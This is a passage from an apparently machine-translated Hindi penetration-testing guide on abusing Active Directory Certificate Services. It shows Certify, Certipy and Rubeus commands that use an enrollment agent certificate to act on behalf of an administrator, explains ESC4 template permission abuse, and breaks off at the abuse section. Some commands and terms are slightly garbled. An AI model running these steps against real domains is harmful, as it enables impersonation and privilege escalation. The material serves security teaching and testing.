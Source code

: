 आप इस स्थिति का दुरुपयोग करने के लिए [**Certify**](https://github.com/GhostPack/Certify) या [**Certipy**](https://github.com/ly4k/Certipy) का उपयोग कर सकते हैं:
```bash
# Request an enrollment agent certificate
Certify.exe request /ca:DC01.DOMAIN.LOCAL\DOMAIN-CA /template:Vuln-EnrollmentAgent
certipy req -username john@corp.local -password Passw0rd! -target-ip ca.corp.local' -ca 'corp-CA' -template 'templateName'

# Enrollment agent certificate to issue a certificate request on behalf of
# another user to a template that allow for domain authentication
Certify.exe request /ca:DC01.DOMAIN.LOCAL\DOMAIN-CA /template:User /onbehalfof:CORP\itadmin /enrollment:enrollmentcert.pfx /enrollcertpwd:asdf
certipy req -username john@corp.local -password Pass0rd! -target-ip ca.corp.local -ca 'corp-CA' -template 'User' -on-behalf-of 'corp\administrator' -pfx 'john.pfx'

# Use Rubeus with the certificate to authenticate as the other user
Rubeu.exe asktgt /user:CORP\itadmin /certificate:itadminenrollment.pfx /password:asdf
```
**उपयोगकर्ता** जिन्हें **एनरोलमेंट एजेंट सर्टिफिकेट** प्राप्त करने की अनुमति है, उन टेम्पलेट्स में जिनमें एनरोलमेंट **एजेंट्स** को नामांकित करने की अनुमति है, और जिनके पक्ष में एनरोलमेंट एजेंट कार्रवाई कर सकता है, उन्हें उद्यम CA द्वारा प्रतिबंधित किया जा सकता है। इसे `certsrc.msc` **स्नैप-इन** खोलकर, CA पर **दायाँ क्लिक** करके, **संपत्तियों** पर क्लिक करके, और फिर “एनरोलमेंट एजेंट्स” टैब पर **नेविगेट** करके प्राप्त किया जा सकता है।

हालांकि, यह दर्जनीय है कि CA के लिए **डिफ़ॉल्ट** सेटिंग “**एनरोलमेंट एजेंट्स को प्रतिबंधित न करें**” है। जब एनरोलमेंट एजेंट्स पर प्रतिबंध व्यवस्थापकों द्वारा सक्षम किया जाता है, तो इसे “एनरोलमेंट एजेंट्स को प्रतिबंधित करें” पर सेट करने पर भी, डिफ़ॉल्ट विन्यास अत्यंत अनुमोदनशील रहता है। यह सभी को सभी टेम्पलेट्स में नामांकित होने की अनुमति देता है जैसे कोई भी।

## संवेदनशील सर्टिफिकेट टेम्पलेट एक्सेस नियंत्रण - ESC4

### **व्याख्या**

**सर्टिफिकेट टेम्पलेट्स** पर **सुरक्षा विवरण** निर्धारित करता है कि टेम्पलेट के संबंध में विशिष्ट **AD मुख्य** किस प्रमाणों को पास करते हैं।

यदि किसी **हमलावर** को **अनुमतियाँ** होती हैं कि वह एक **टेम्पलेट** को **बदल** सकता है और **पूर्व खंडों** में विस्तार से वर्णित किसी भी **शोषणीय गलतियों** को **स्थापित** कर सकता है, तो विशेषाधिकार बढ़ाया जा सकता है।

सर्टिफिकेट टेम्पलेट्स के लिए लागू योग्य अनुमतियाँ में शामिल हैं:

* **मालिक:** वस्तु पर नियंत्रण की निर्देशिका देता है, जिससे किसी भी विशेषताओं को संशोधित करने की क्षमता होती है।
* **पूर्ण नियंत्रण:** वस्तु पर पूर्ण अधिकार देता है, जिसमें किसी भी विशेषताओं को संशोधित करने की क्षमता होती है।
* **लेखनमालिका:** वस्तु के मालिक को बदलने की अनुमति देता है जिसे हमलावर के नियंत्रण में एक मुख्य हो।
* **लेखन डेकल:** पहुंच नियंत्रणों को समायोजित करने की अनुमति देता है, जिससे हमलावर को पूर्ण नियंत्रण मिल सकता है।
* **लेखन संपत्ति:** किसी भी वस्तु गुणों को संपादित करने की अनुमति देता है।

### दुरुपयोग
